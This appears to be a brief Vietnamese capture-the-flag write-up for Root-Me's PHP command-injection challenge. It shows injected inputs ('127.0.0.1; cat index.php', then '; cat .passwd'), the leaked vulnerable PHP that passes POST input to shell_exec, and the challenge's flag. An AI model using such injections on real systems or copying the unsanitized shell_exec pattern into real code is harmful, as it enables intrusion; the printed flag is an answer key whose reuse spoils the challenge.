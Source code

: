 # [PHP - Command injection](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)

## Solutions

- Submit query: `127.0.0.1; cat index.php`
  - Đọc được code PHP trong response:

    ```php
    <?php 
    $flag = "".file_get_contents(".passwd")."";
    if(isset($_POST["ip"]) && !empty($_POST["ip"])){
            $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
            echo $response;
    }
    ?>
    ```

- Submit query: `127.0.0.1; cat .passwd`
  - Lấy được flag: `S3rv1ceP1n9Sup3rS3cure`
